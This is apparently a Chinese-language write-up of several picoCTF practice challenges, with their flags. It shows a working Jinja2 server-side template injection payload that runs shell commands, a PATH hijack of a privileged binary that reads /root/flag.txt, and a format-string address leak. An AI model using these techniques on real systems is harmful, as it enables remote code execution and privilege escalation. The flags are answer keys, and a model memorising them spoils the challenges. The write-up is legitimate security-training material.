




## Easy

### SSTI1

[Problem Link](https://play.picoctf.org/practice/challenge/492?originalEvent=74&page=1)

<Details summary="Solution">

打開是個簡陋的網頁，根據題目名稱 SSTI，我們試試輸入 `{{7*7}}`，結果網頁回傳 `49`，表示有 Server-Side Template Injection 的漏洞



那我們可以開始來搞事了，先來看看裡面有什麼東西

```python
{{ cycler.__init__.__globals__.os.popen('ls -R').read() }}
```

```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```

啊哈找到 flag 了，直接

```python
{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

> **Flag**: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}`

#### References

- [iT 邦幫忙::一起幫忙解決難題，拯救 IT 人的一天](https://ithelp.ithome.com.tw/m/articles/10272749)
- [What SSTI | Server-Side Template Injection Attacks | Imperva](https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/)

</Details>

### Cookie Monster Secret Recipe

[Problem Link](https://play.picoctf.org/practice/challenge/469?originalEvent=74&page=1)

<Details summary="Solution">

打開網頁隨便亂輸入帳密，跳出這個


那麼就開啟開發者工具，看看 cookie 裡面有什麼東西



看到 `%3D` 就知道是 base64 了，解碼直接是 flag

> **Flag**: `picoCTF{c00k1e_m0nster_l0ves_c00kies_E634DFBB}`

</Details>

### Rust fixme 1

[Problem Link](https://play.picoctf.org/practice/challenge/461?originalEvent=74&page=1)

<Details summary="Solution">

```
❯ cargo run
    Updating crates.io index
  Downloaded either v1.13.0
  Downloaded xor_cryptor v1.2.3
  Downloaded crossbeam-deque v0.8.5
  Downloaded rayon-core v1.12.1
  Downloaded crossbeam-utils v0.8.20
  Downloaded crossbeam-epoch v0.9.18
  Downloaded rayon v1.10.0
  Downloaded 7 crates (379.2KiB) in 0.60s
   Compiling crossbeam-utils v0.8.20
   Compiling rayon-core v1.12.1
   Compiling either v1.13.0
   Compiling crossbeam-epoch v0.9.18
   Compiling crossbeam-deque v0.8.5
   Compiling rayon v1.10.0
   Compiling xor_cryptor v1.2.3
   Compiling rust_proj v0.1.0 (/home/hyper/tmp/ctf/fixme1)
error: expected ";", found keyword `let`
 --> src/main.rs:5:37
  |
5 |     let key = String::from("CSUCKS") // How do we end statements in Rust?
  |                                     ^ help: add `;` here
...
8 |     let hex_values = ["41", "30", "20", "63", "4a", "45", "54", "76", "01", "1c"...
  |     --- unexpected token

error: argument never used
  --> src/main.rs:26:9
   |
25 |         ":?", // How do we print out a variable in the println function?
   |         ---- formatting specifier missing
26 |         String::from_utf8_lossy(&decrypted_buffer)
   |         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ argument never used

error[E0425]: cannot find value `ret` in this scope
  --> src/main.rs:18:9
   |
18 |         ret; // How do we return in rust?
   |         ^^^ help: a local variable with a similar name exists: `res`

For more information about this error, try `rustc --explain E0425`.
error: could not compile `rust_proj` (bin "rust_proj") due to 3 previous errors
```

基本就是教你 Rust 的語法，修好再跑一次就給你 flag 了

```
❯ cargo run
   Compiling rust_proj v0.1.0 (/home/hyper/tmp/ctf/fixme1)
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.39s
     Running `target/debug/rust_proj`
"picoCTF{4r3_y0u_4_ru$t4c30n_n0w?}"
```

這裡的 `{:?}` 是 debug mode（像是 string 會加上引號等），也可以使用 `{}` display mode 正常輸出

```
println!(
    "{?:}", // How do we print out a variable in the println function?
    String::from_utf8_lossy(&decrypted_buffer)
);
```

> **Flag**: `picoCTF{4r3_y0u_4_ru$t4c30n_n0w?}`

</Details>

## Medium

### hash-only-1

[Problem Link](https://play.picoctf.org/practice/challenge/487?originalEvent=74&page=2)

<Details summary="Solution">

直接執行 `flaghasher` 他給我們的是 MD5 hash 過後的值，我們顯然不可能從這個值回推原本的 flag

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

4d4f660d53535446f15c1a3a7b535e50  /root/flag.txt
```

用 string 把 `flaghasher` 倒出來看

```
ctf-player@pico-chall$ strings flaghasher | grep flag
Computing the MD5 hash of /root/flag.txt....
/bin/bash -c 'md5sum /root/flag.txt'
```

可以看到他是用 `md5sum` 來計算 flag 的 hash 值，那我是不是可以自己寫一個 script 來把 `md5sum` 換掉

```sh
echo -e '#!/bin/bash\ncat "$@"' > md5sum
chmod +x md5sum
PATH=.:$PATH ./flaghasher
```

啊哈

```
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_ae1d8678}
```

> **Flag**: `picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_ae1d8678}`

</Details>

### PIE TIME 2

[Problem Link](https://play.picoctf.org/practice/challenge/491?originalEvent=74&page=2&search=)

<Details summary="Solution">

首先他叫我們輸入名字然後 printf，接著可以輸入一個地址直接跳去那邊執行。

```cpp
char buffer[64];
printf("Enter your name:");
fgets(buffer, 64, stdin);
printf(buffer);
```

因為他直接把 buffer 塞進 printf 的第一個參數，這裡有個 format string vulnerability，可以用 `%p` 來洩漏 stack 上的東西：



用 pwndbg 可以看到在 `rbp+8` 的地方有一個 `main+65`，算一下我們用 `%19$p` 就可以 leak main address，然後就算一下跟 win 的距離跳過去就做完了。

```sh
pwndbg> distance main+65 win
0x555555555441->0x55555555536a is -0xd7 bytes (-0x1b words)
```



> **Flag**: `picoCTF{p13_5h0u1dn'7_134k_c9a04879}`

</Details>
